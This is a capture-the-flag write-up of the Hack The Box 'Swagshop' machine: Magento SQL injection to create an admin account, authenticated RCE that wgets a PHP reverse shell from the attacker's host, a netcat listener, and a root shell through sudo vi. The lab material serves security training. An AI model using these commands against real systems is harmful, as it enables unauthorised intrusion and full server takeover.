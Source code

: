 ```yaml
---
layout: post
title:  "HTB - Swagshop"
description: <img src="https://werdinfosec.com/images/2019-09-28/image0.png" class="centered" />

date:   2019-09-22 
categories: hackthebox hack the box swagshop swag shop write-up writeup write up
---
```


<img src="https://werdinfosec.com/images/2019-09-28/image1.png" class="right" />

<br/>

Hostname: swagshop.htb
======================

IP: 10.10.10.140
================

OS: Ubuntu 16.04
================

Difficulty: Easy
================

Creator: ch4p
=============
<br/>
<br/>
<br/>

TL;DR
=====
Swagshop is an easy linux box on HackTheBox, which is running a vulnerable version of Magento. Using a python exploit, a sql injection creates an admin account.
After creating the admin account a remote code execution python exploit allows for downloading a shell to the webroot. After triggering the reverse shell, loose restictions on sudo allow www-data to run 
vi on files in /var/www/html as root with no password. Escaping vi with a classic shell escape provides a shell as root.

<br/>

Enumeration
===========

Enumeration starts with a quick nmap scan. This reveals two open ports, 22 and 80. 

*command: nmap -sC -sV 10.10.10.140*
<img src="https://werdinfosec.com/images/2019-09-28/image2.png" class="centered" />

Visiting port 80 a magento page is discovered. 

*url: http://10.10.10.140*
<img src="https://werdinfosec.com/images/2019-09-28/image3.png" class="centered" />

Magento version enumeration is done by visting RELEASE_NOTES.txt

*url:http://10.10.10.140/RELEASE_NOTES.txt*
<img src="https://werdinfosec.com/images/2019-09-28/image4.png" class="centered" />

<br/>

Exploitation
============

The first [exploit] used creates an admin user on the Magento Web Application through a sql injection.

*command: searchsploit magento*
<img src="https://werdinfosec.com/images/2019-09-28/image5.png" class="centered" />

Mirroring the exploit to the working directory.

*command: searchsploit -m exploits/xml/webapps/37877.py*
<img src="https://werdinfosec.com/images/2019-09-28/image6.png" class="centered" />

For the exploit to work, remove all uncommented text. We are required to add the target ip to the exploit. The path has to be altered, as it is incorrect.

<img src="https://werdinfosec.com/images/2019-09-28/image7.png" class="centered" />

Set the new admin username and password to anything you'd like. I chose the username and password newadmin:hacker

<img src="https://werdinfosec.com/images/2019-09-28/image8.png" class="centered" />

Running the modified exploit.

*command python magentoexploit.py*
<img src="https://werdinfosec.com/images/2019-09-28/image9.png" class="centered" />

Logging in as 'newadmin to confirm that we have created a valid admin user.

*url: http://10.10.10.140/index.php/admin/*
<img src="https://werdinfosec.com/images/2019-09-28/image10.png" class="centered" />

<br/>

Remote Code Execution Exploit
=============================

Finding an [Authenticated Remote Code Execution Exploit].

<img src="https://werdinfosec.com/images/2019-09-28/image11.png" class="centered" />

Mirroring the exploit to current directory.

<img src="https://werdinfosec.com/images/2019-09-28/image12.png" class="centered" />

The exploit requires the exact date and time of the installation. This information can be found at /app/etc/local.xml

*url: http://10.10.10.140/app/etc/local.xml*
<img src="https://werdinfosec.com/images/2019-09-28/image13.png" class="centered" />

This exploit requires that username and password are defined. Change the install_date variable toreflect local.xml. Also the manual username control prevents the exploit from executing successfully.

<img src="https://werdinfosec.com/images/2019-09-28/image14.png" class="centered" />
<img src="https://werdinfosec.com/images/2019-09-28/image15.png" class="centered" />

Running the exploit. Executing whoami and pwd.

*command python authenticatedrec.py http://10.10.10.140/index.php/admin/ "whoami"*
*command python authenticatedrec.py http://10.10.10.140/index.php/admin/ "pwd"*
<img src="https://werdinfosec.com/images/2019-09-28/image16.png" class="centered" />

Downloading a reverse shell to /var/www/html allows for executing the php when triggered through a web browser. 
Starting python simpleHTTPserver to serve the [pentest monkey reverse shell]. Don't forget to change the IP and Port variable to reflect the attacker's listener information.

*command: python -m SimpleHTTPServer 80*
<img src="https://werdinfosec.com/images/2019-09-28/image17.png" class="centered" />

Downloading the reverse shell with the exploits remote code execution.

*command python authenticatedrec.py http://10.10.10.140/index.php/admin/ "wget http://10.10.14.20/revsh.php"*
<img src="https://werdinfosec.com/images/2019-09-28/image18.png" class="centered" />

Starting a netcat listener:

*command: nc -lvnp 443*
<img src="https://werdinfosec.com/images/2019-09-28/image19.png" class="centered" />

Triggering the reverse shell.

*url: http://10.10.10.140/revsh.php*
<img src="https://werdinfosec.com/images/2019-09-28/image20.png" class="centered" />

Catching the reverse shell as user www-data

<img src="https://werdinfosec.com/images/2019-09-28/image21.png" class="centered" />

Privilege Escalation
====================

First things first, upgrade to a tty with python3. Python 2 is not on this system, but python3 is. 

*command: python3 -c "import pty; pty.spawn('/bin/bash')"*
<img src="https://werdinfosec.com/images/2019-09-28/image22.png" class="centered" />

It appears www-data can run /usr/bin/vi on any file in the /var/www/html directory as root without a password.

*command: sudo -l*
<img src="https://werdinfosec.com/images/2019-09-28/image23.png" class="centered" />

Running the following command will start vi as root. Using vi we can execute any bash command by prepending the command with ':!'.

*command: sudo vi /var/www/html/anyfile*
<img src="https://werdinfosec.com/images/2019-09-28/image24.png" class="centered" />

The shell escape sequence:

*command: :! /bin/bash*
<img src="https://werdinfosec.com/images/2019-09-28/image25.png" class="centered" />

<br/>

ROOTED
======

<img src="https://werdinfosec.com/images/2019-09-28/image26.png" class="centered" />

Flags:

<img src="https://werdinfosec.com/images/2019-09-28/image27.png" class="centered" />


[pentest monkey reverse shell]:https://github.com/pentestmonkey/php-reverse-shell
[Authenticated Remote Code Execution Exploit]:https://www.exploit-db.com/exploits/37811
[exploit]:https://www.exploit-db.com/exploits/37977
